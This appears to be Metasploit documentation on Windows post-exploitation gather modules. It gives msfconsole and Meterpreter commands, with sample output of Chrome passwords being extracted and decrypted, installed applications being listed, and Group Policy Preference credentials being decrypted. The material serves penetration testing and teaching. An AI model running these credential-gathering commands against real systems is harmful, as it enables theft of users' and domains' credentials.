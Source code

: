 ## Post Modules
You can search for post gather modules within msfconsole:
```msf
msf6 > search type:post platform:windows name:gather

Matching Modules
================

   #    Name                                                       Disclosure Date  Rank       Check  Description
   -    ----                                                       ---------------  ----       -----  -----------
   0    post/windows/gather/ad_to_sqlite                                            normal     No     AD Computer, Group and Recursive User Membership to Local SQLite DB
   1    post/windows/gather/credentials/aim                                         normal     No     Aim credential gatherer
   ... etc ..
```

### Usage
Within a msf prompt you can use the `use` command followed by the `run` command to execute the module against the required session. For instance to extract credentials from Chrome on the most recently opened Metasploit session:
```msf
msf6 > use post/windows/gather/enum_chrome
msf6 post(windows/gather/enum_chrome) > run session=-1 verbose=true

[*] Impersonating token: 7192
[*] Running as user 'DESKTOP-N3MAG5R\basic_user'...
[*] Extracting data for user 'basic_user'...
[+] Downloaded Web Data to '/Users/user/.msf4/loot/20220422122125_default_192.168.123.151_chrome.raw.WebD_560928.txt'
[-] Cookies not found
[+] Downloaded History to '/Users/user/.msf4/loot/20220422122126_default_192.168.123.151_chrome.raw.Histo_861946.txt'
[+] Downloaded Login Data to '/Users/user/.msf4/loot/20220422122126_default_192.168.123.151_chrome.raw.Login_785667.txt'
[+] Downloaded Bookmarks to '/Users/user/.msf4/loot/20220422122127_default_192.168.123.151_chrome.raw.Bookm_612993.txt'
[+] Downloaded Preferences to '/Users/user/.msf4/loot/20220422122127_default_192.168.123.151_chrome.raw.Prefe_893631.txt'
[*] Found password encrypted with masterkey
[+] Found masterkey!
[+] Decrypted data: url:http://192.168.123.6/ helloworld:157746edfe6b4d369d7e656c00eeb5c8
[+] Decrypted data: url:https://www.example.com/ my_username:my_password_123
[+] Decrypted data saved in: /Users/user/.msf4/loot/20220422122129_default_192.168.123.151_chrome.decrypted_981698.txt
[*] Post module execution completed
msf6 post(windows/gather/enum_chrome) >
```

Or within a Meterpreter prompt use the `run` command, which will automatically set the module's session value:
```msf
msf6 > sessions --interact -1
[*] Starting interaction with 5...

meterpreter > run post/windows/gather/enum_applications

[*] Enumerating applications installed on DESKTOP-N3MAG5R

Installed Applications
======================

 Name                                                                Version
 ----                                                                -------
 7-Zip 21.07 (x64)                                                   21.07
 Application Verifier x64 External Package                           10.1.19041.685
 ClickOnce Bootstrapper Package for Microsoft .NET Framework         4.8.04162
 DiagnosticsHub_CollectionService                                    16.1.28901
 Docker Desktop                                                      2.2.0.4
 ... etc ..
```

## Useful modules
### Windows GPP Credentials
This module enumerates the victim machine's domain controller and connects to it via SMB. It then looks for Group Policy Preference XML files containing local user accounts and passwords and decrypts them using Microsoft's public AES key. Cached Group Policy files may be found on end-user devices if the group policy object is deleted rather than unlinked
```
use post/windows/gather/credentials/gpp
run session=-1
```

